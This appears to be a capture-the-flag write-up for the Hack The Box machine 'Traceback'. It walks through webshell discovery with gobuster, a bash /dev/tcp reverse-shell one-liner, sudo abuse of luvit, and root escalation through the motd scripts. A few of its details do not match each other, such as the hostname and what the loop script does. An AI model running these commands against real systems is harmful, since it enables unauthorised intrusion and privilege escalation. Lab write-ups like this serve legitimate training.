



We'll start things off with a NMAP scan. The scan reveals only 2 ports are opened.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Viewing the page hosted on port 80 we see an a message that gives us an hint toward a foothold. There is already a webshell running.



Next step we can enumerate this website with gobuster. Using the "common" and "big" dirb word-list yielded no result.

Looking up the moniker used to signed the page (Xh4H), we can find a github repo of a user going by the same name that contains a list of web shells. We can generate a list of all the shells and try them individually.

```
/webshells.txt
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```

I am kidding of course, we will pass this list to gobuster.

```
kali@kali:~/HTB/Traverxec$ gobuster dir -u http://traceback.htb/ -w ./webshells.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://traverxec.htb/
[+] Threads:        10
[+] Wordlist:       ./webshells.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/28 03:08:05 Starting gobuster
===============================================================
/smevk.php (Status: 200)
===============================================================
```

The web shell being used is revealed to be "smevk.php". With this at hand we can navigate to the web shell and login with the default username and password.



We can use this web-shell to initiate a reverse shell. Assuming netcat is already listening, we can execute the following command.

`nohup bash -c 'bash -i >& /dev/tcp/<your ip here>/<port here> 0>&1'`



When we get the shell we see it is under the user `webadmin` . From here we can start poking around. In the home directory of this user there is a text file that gives an hint toward privilege escalation.

```
webadmin@traceback:/home/webadmin$ ls
ls
note.txt
webadmin@traceback:/home/webadmin$ less note.txt
less note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
webadmin@traceback:/home/webadmin$
```

This bit led me to check what binaries the user webadmin can execute as other users

```
sudo -l
Matching Defaults entries for webadmin on traceback:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
(sysadmin) NOPASSWD: /home/sysadmin/luvit
webadmin@traceback:/home/webadmin$
```

luvit is a cli tool that is used to execute lua script. Since we can execute it as another user user can user it to execute a shell with the owning user's context; in this case sysadmin.

```
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
<min /home/sysadmin/luvit -e 'os.execute("/bin/sh")'
sh: turning off NDELAY mode
ls
note.txt
cd ..
ls
sysadmin
webadmin
cd sysadmin
ls
luvit
user.txt
id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
```

Moving on now to the root flag. For a better shell experience you can add a public key and then ssh into the box. For enumeration at this point, I used linpeas and pspy. pspy reveals a cp operation that happens periodically into /etc/update-motd.d/

The content of this directory are executed as root; explained here.

> Executable scripts in /etc/update-motd.d/\* are executed by pam_motd(8) as the root user at
>   each login, and this information is concatenated in /run/motd.dynamic. The order of
>   script execution is determined by the run-parts(8) --lsbsysinit option (basically
>   alphabetical order, with a few caveats).

The goal here is to get a bash script into the source directory for it to be copied into `/etc/update-motd.d/`

```
020/07/28 22:45:31 CMD: UID=0    PID=1668   | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
```

For this exploit, I created a crude bash script that periodically write a reverse shell command to a file in the source directory.

```
for i in `seq 1 20`
do
echo 'cat /root/root.txt' >> /etc/update-motd.d/00-header && cat /etc/update-motd.d/00-header
sleep 3
done
```

This command is executed as root whenever a user ssh into the box and we get a shell.

```
kali@kali:~/HTB/Traceback$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.181] 54158
bash: cannot set terminal process group (3013): Inappropriate ioctl for device
bash: no job control in this shell
root@traceback:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@traceback:/# cd /root
cd /root
root@traceback:/root# ls
ls
root.txt
root@traceback:/root#
```
